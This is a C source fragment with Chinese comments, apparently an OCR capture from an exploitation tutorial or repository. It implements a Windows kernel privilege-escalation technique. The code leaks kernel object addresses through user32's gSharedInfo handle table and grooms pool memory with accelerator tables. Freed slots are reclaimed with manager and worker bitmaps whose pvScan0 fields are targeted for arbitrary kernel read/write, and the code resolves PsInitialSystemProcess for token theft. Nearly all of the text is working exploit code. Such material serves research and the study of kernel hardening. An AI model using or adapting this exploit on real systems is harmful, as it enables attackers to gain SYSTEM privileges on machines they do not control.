 ```c
		return 0;
	}
	DWORD64 PsInitialSystemProcessUserSpaceAddr = (DWORD64)GetProcAddress((HMODULE)ntoskrnlUserBase, "PsInitialSystemProcess");
	DWORD64 PsInitialSystemProcessKernelSpaceAddr = ntoskrnlKernelBase + (PsInitialSystemProcessUserSpaceAddr - ntoskrnlUserBase);

	return PsInitialSystemProcessKernelSpaceAddr;
}

int main()
{
	PUSER_HANDLE_ENTRY leakAddr = NULL;
	PSHAREDINFO gSharedInfo = (PSHAREDINFO)GetProcAddress(GetModuleHandle("user32.dll"), "gSharedInfo");
	PUSER_HANDLE_ENTRY handleTable = gSharedInfo->aheList;

	int nSize = 698;

	LPACCEL lPaccel = NULL;
	// LPTR 意为 LMEM_FIXED | LMEM_ZEROINIT，即分配固定内存并初始化为 0
	lPaccel = (LPACCEL)LocalAlloc(LPTR, sizeof(ACCEL) * nSize);

	HACCEL hAccel_1[100] = { 0 };
	HACCEL hAccel_2[7] = { 0 };

	for (int i = 0; i < 100; i++) {
		hAccel_1[i] = CreateAcceleratorTable(lPaccel, nSize);
	}

	for (int i = 0; i < 7; i++) {
		hAccel_2[i] = CreateAcceleratorTable(lPaccel, nSize);
	}

	leakAddr = &handleTable[LOWORD(hAccel_2[2])];
	DWORD64 hManagerAddr = (DWORD64)(leakAddr->pKernel);
	//printf("Manager bitmap addr: 0x%p\n", hManagerAddr);
	DestroyAcceleratorTable(hAccel_2[2]);
	HBITMAP hManagerbitmap = CreateBitmap(0x710, 0x2, 0x1, 0x8, NULL);

	leakAddr = &handleTable[LOWORD(hAccel_2[5])];
	DWORD64 hWorkerAddr = (DWORD64)(leakAddr->pKernel);
	//printf("Worker bitmap addr: 0x%p\n", hWorkerAddr);
	DestroyAcceleratorTable(hAccel_2[5]);
	HBITMAP hWorkerbitmap = CreateBitmap(0x710, 0x2, 0x1, 0x8, NULL);

	for (int i = 0; i < 7; i++) {
		if ((i != 2) && (i != 5)) {
			DestroyAcceleratorTable(hAccel_2[i]);
		}
	}

	for (int i = 0; i < 100; i++) {
		DestroyAcceleratorTable(hAccel_1[i]);
	}

	// ------我是分割线------

	// 到这里我们已经获得 bitmap 的地址了，接下来就跟 RS1 之前一样利用 bitmap 就好了

	DWORD64 ManagerpvScan0Address = hManagerAddr + 0x18 + 0x38;
	printf("Manager pvScan0 Addr: 0x%p\n", ManagerpvScan0Address);
	DWORD64 WorkerpvScan0Address = hWorkerAddr + 0x18 + 0x38;
```